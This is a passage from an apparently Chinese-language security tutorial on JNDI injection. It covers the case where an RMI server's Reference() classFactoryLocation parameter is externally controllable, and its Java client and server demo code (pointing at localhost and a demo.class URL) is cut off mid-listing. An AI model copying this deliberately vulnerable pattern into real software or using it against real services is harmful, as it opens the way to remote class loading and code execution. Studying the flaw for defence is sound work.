 #### 漏洞点2——classFactoryLocation参数注入

前面lookup()参数注入是基于RMI客户端的，也是最常见的。而本小节的classFactoryLocation参数注入则是对于RMI服务端而言的，也就是说服务端程序在调用Reference()初始化参数时，其中的classFactoryLocation参数外部可控，导致存在JNDI注入。

![img](img/6.png)

示例代码：

```java
//BClient.java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.util.Properties;

public class BClient {
    public static void main(String[] args) throws Exception{
        Properties env = new Properties();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:1099");
        Context ctx = new InitialContext(env);
        System.out.println("[*] Using lookup() to fetch object with rmi://127.0.0.1:1099/demo");
        ctx.lookup("demo");
    }
}
//BServer.java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class BServer {
    public static void main(String[] args) throws Exception{
        String url = "";
        if(args.length == 1){
            url = args[0];
        }else {
            url = "http://127.0.0.1/demo.class";
```